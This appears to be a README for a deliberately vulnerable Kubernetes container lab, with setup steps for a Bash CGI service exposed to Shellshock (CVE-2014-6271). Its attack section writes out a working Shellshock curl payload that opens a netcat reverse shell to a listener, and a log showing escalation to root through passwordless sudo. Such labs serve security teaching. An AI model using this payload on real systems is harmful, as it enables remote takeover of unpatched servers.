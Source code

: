 # Vulnerable Container Image :smiling_imp:

This is an example of an attack caused by a vulnerable container image.

## Requirements
- CPU Architecture
  - amd64
  - x86_64
  - arm64 (:warning: use the command marked `for arm64`)
- Tools
  - Docker
  - kubectl
  - minikube

## Vulnerability Description

- Bash with [CVE-2014-6271](https://security-tracker.debian.org/tracker/CVE-2014-6271)
- Unnecessary packages such as netcat and sudo
- Root privileges can be obtained without password
- a CGI script

## Setup

1. (Only for `arm64`) Set up for using `amd64` images

```bash
# create a new instance for using `amd64` images
> docker buildx create --use

# enable qemu-user-static for using `amd64` images
> minikube ssh "sudo apt-get update && sudo apt-get -y install qemu-user-static"
> minikube stop && minikube start
```

2. Build the vulnerable container image

```bash
> docker build -t vulnerable-container-image .

# for arm64
> docker build -t vulnerable-container-image . --platform=linux/amd64 --load
```

3. Build the web container image

```bash
> docker build -t web-container-image .

# for arm64
> docker build -t web-container-image . --platform=linux/amd64 --load
```

4. Load the local images to minikube

```bash
> minikube image load vulnerable-container-image:latest
> minikube image load web-container-image:latest
```

5. Apply k8s manifests

```bash
> kubectl apply -f manifest/pod.yaml
> kubectl apply -f manifest/service.yaml
```

6. Assign the external IP to the load balancer

```bash
> minikube tunnel
```


## Attack Scenario

1. Listen to the port 5050 on the host machine

   - Terminal 1

       ```bash
       > ncat -lvnp 5050
       ```
2. Execute the command to establish a connection to the host machine from the vulnerable container
       
   - Terminal 2

        ```bash
        > curl -H "User-Agent: () { :; }; /bin/nc -e /bin/bash ${TERMINAL_IP} 5050" http://${EXTERNAL_IP}:8080/cgi-bin/vulnerable-cgi
        ```

   - Log of Terminal 1

        ```bash
        
        Ncat: Version 7.95 ( https://nmap.org/ncat )
        Ncat: Listening on [::]:5050
        Ncat: Listening on 0.0.0.0:5050
        Ncat: Connection from xxx.xxx.xxx.xxx.
        whoami # input1
        www-data # output1
        sudo su # input2
        whoami # input3
        root # output3
        ```